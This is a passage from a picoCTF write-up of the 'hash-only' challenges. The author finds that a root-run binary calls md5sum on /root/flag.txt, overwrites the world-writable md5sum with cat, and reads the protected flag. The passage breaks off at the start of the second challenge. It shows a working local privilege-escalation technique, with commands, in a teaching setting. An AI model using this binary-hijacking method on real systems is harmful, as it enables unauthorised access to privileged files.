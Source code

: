 (As usual, variables names are by me, weirdness is by Ghidra).

Decompiling this binary wasn't even that necessary, the important part could have been found by just finding the command that the program runs:

```
ctf-player@pico-chall$ strings flaghasher | grep flag
Computing the MD5 hash of /root/flag.txt.... 
/bin/bash -c 'md5sum /root/flag.txt'
```

We have two possible plans of attack:

1. Hijack `/bin/bash` with a program to print out the flag, which should work since it would be run with root priviliges
2. Hijack `md5sum` with `cat` to just print out the flag

We check the protections of both files:

```
ctf-player@pico-chall$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
ctf-player@pico-chall$ which md5sum
/usr/bin/md5sum
ctf-player@pico-chall$ ls -l /usr/bin/md5sum
-rwxrwxrwx 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
```

The last 3 letters of the string at the start of the output to `ls -l` tell us what a regular user (us) can do to the file. In the case of `/bin/bash`, we can read and execute but not write,
in the case of `/usr/bin/md5sum`, we can read, write, and execute it. This means we can replace it with `cat`, provided we have read privileges to it.

```
ctf-player@pico-chall$ which cat
/usr/bin/cat
ctf-player@pico-chall$ ls -l /usr/bin/cat
-rwxr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
ctf-player@pico-chall$ cp /usr/bin/cat /usr/bin/md5sum
```

Running the binary again, the program will just print out the flag now:
```
ctf-player@pico-chall$ cp /usr/bin/cat /usr/bin/md5sum
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{<FLAG>}
```

## hash-only-2

We have very much the very same challenge, but this time when we log in, we're greeted by something else if we try the same thing...

```
ctf-player@pico-chall$ which flaghasher
/usr/local/bin/flaghasher
ctf-player@pico-chall$ flaghasher
Computing the MD5 hash of /root/flag.txt.... 

b5953e013f83240dab571e2bf2c21f5d  /root/flag.txt
ctf-player@pico-chall$ which md5sum
/usr/bin/md5sum
ctf-player@pico-chall$ ls -l /usr/bin/md5sum
-rwxr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
```
